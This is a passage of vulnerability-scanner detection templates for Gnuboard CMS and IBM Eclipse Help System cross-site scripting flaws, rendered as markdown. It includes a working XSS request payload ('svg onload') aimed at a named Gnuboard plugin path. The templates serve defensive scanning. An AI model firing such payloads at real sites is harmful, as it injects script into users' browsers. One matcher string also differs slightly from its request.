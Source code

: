 **Type - status**

- status
  1. 200

---

# Gnuboard CMS - Cross-Site Scripting

## Description

- Gnuboard CMS contains a cross-site scripting vulnerability which allows remote attackers to inject arbitrary JavaScript into the responses returned by the server.
- severity - medium
- tags - xss,gnuboard

## Requests

- Method - GET

### URL

- {{BaseURL}}/plugin/sms5/ajax.sms_emoticon.php?arr_ajax_msg=gnuboard\<svg+onload=alert(document.domain)>

### Matchers

**Type - word**

- part - body
- words
  1. "0nuboard\<svg onload=alert(document.domain)>"

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# IBM Eclipse Help System - Cross-Site Scripting

## Description

- IBM Eclipse Help System 6.1.0 through 6.1.0.6, 6.1.5 through 6.1.5.3, 7.0 through 7.0.0.2, and 8.0 prior to 8.0.0.1 contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site.
- severity - high
- tags - ibm,xss
